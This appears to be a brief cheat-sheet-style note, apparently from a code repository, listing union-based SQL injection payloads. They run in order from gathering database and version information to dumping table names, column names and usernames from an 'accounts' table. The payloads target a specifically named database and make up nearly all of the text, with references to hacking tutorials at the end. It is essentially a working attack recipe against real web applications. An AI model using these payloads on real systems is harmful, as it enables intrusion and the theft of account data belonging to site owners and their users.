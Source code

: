 info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection
